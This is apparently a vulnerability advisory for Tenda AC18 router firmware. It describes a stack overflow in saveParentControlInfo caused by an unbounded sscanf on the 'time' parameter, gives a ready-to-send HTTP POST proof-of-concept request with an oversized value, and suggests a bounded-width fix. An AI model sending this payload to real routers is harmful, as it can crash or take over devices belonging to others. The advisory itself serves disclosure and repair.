

## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.05 and V15.03.05.19
Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## 2. Vulnerability details
   A stack-based buffer overflow vulnerability exists in the saveParentControlInfo function of Tenda AC18 firmware. The function processes user-controlled input from the time parameter by passing it to nptr, which is subsequently processed by sscanf with the format "%[^-]-%s". However, the function does not properly validate the size of the input, which allows an attacker to provide input that exceeds the buffer sizes of the destination variables (s1 and s2). This leads to a stack overflow, which may allow an attacker to execute arbitrary code or cause a Denial of Service (DoS) attack. The vulnerability could be exploited remotely by sending specially crafted input.

   

## 3. Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
3.1 Use the fat simulation firmware V15.03.05.19

3.2 Attack with the following overflow POC attacks
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1467
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/parental_control.html?random=0.7639560863840195&
Cookie: password=0d403f6ad9aea37a98da9255140dbf6ebyzcvb

deviceId=02%3A03%3A04%3A05%3A06%3A07&deviceName=&enable=1&time=2222222222333333333333333333333333222222222222222222222233333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333339%3A0021%3A00&url_enable=1&urls=baidu&day=1%2C1%2C1%2C1%2C1%2C1%2C1&limit_type=0

## 4 Suggested repair
sscanf(nptr, "%127[^-]-%127s", s1, s2);
